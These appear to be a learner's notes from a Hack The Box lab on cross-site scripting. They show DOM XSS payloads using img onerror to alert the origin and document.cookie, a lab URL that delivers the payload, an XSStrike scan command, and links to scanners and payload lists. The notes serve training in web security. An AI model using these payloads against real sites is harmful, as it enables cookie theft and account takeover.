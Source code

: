  This is because the `innerHTML` function does not allow the use of the `<script>` tags within it as a security feature.

we can then use the following:

```html
<img src="" onerror=alert(window.origin)>
```

question:
get document cookie

```html
<img src="" onerror=alert(document.cookie)>
```


```http
http://94.237.54.42:31404/#task=%3Cimg%20src=%22%22%20onerror=alert(document.cookie)%3E
```

# XSS Discovery

## Automated Discovery
Almost all Web Application Vulnerability Scanners (like [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://www.zaproxy.org/)) have various capabilities for detecting all three types of XSS vulnerabilities.


Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try `XSS Strike` by cloning it to our VM with `git clone`:


```shell-session
 python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

#### XSS Payloads

We can find huge lists of XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list).

Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

## Code Review

https://academy.hackthebox.com/course/preview/secure-coding-101-javascript
https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection


question:

http://94.237.48.144:36202/?fullname=awd&username=awd&password=awdawd&email=awdawd%40awdawd.com

